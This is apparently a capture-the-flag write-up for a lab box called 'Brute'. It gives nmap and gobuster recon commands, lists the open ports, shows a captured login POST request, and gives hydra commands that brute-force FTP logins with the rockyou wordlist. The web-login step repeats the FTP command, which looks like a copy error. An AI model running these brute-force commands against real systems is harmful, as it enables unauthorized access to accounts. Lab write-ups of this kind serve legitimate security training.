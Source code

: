 # Brute
--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.22.218

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sV: probe open ports to determine service/version info<br>
-sC: scrit scan<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap -sC -sV -p- -oN nmap.txt 10.10.22.218
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)
    22 (ssh OpenSSH 8.2p1),<br>
    80 (http Apache httpd 2.4.41),<br>
    749,<br>
    3306 (mysql),<br>
    25735,<br>
    33354


Enumerate hidden directories on website on port 80
```
gobuster dir -u 10.10.22.218 -w /usr/share/wordlists/dirb/common.txt
```

![1.2](./imgs/1.2.png)

index.html is a login page

### BRUTE FORCE FTP LOGIN

```
hydra -L /usr/share/wordlists/rockyou.txt.gz -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.22.218 -V
```


### BRUTE FORCE

Use Burp Suite to see post request

![2.1](./imgs/2.1.png)

```
POST /index.php HTTP/1.1
Host: 10.10.22.218
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.22.218
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.22.218/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8p49227bpvg8k39sdo819ljeha
Connection: close

username=admin&password=pass
```

Use hydra to brute force login
```
hydra -L /usr/share/wordlists/rockyou.txt.gz -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.22.218 -V
```